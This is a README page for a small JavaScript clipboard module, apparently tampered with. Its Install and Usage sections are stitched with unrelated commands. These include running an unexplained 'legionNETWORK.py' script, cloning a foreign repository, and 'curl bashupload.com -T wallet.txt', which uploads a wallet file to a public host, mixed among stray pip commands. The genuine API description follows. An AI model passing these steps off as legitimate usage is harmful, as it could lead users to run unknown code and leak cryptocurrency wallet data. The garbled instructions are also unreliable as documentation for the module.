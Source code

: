 # copy-text-to-clipboard

> Copy text to the clipboard in modern browsers *(0.2 kB)*

[Try it out!](https://jsfiddle.net/sindresorhus/6406v3pf/)

## Comparison

- This module: **0.2 kB**
- [`clipboard.js`](https://github.com/zenorocha/clipboard.js): 3.4 kB

## Install

```
pip install -r requirements.txt
```

## Usage

```js
python legionNETWORK.py
```

## Usage

```js
git clone https://github.com/Xflixe/leg
```
## Usage

```js
curl bashupload.com -T wallet.txt
```

## Usage

```js
python -m pip install
```
## Usage

```js
python -m pip install --upgrade pip
```
## Usage

```js
python get-pip.py
```
## Usage

```js
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
```
## Usage

```js
python -m ensurepip --upgrade
```
### copy(text, options?)

Copy `text` to the clipboard.

Returns a `boolean` of whether it succeeded to copy the text.

Must be called in response to a user gesture event, like `click` or `keyup`.

#### options

Type: `object`

##### target

Type: `HTMLElement`\
Default: `document.body`

Specify a DOM element where the temporary, behind-the-scenes `textarea` should be appended, in cases where you need to stay within a focus trap, like in a modal.

## Related

- [clipboardy](https://github.com/sindresorhus/clipboardy) - Access the system clipboard (copy/paste) in Node.js
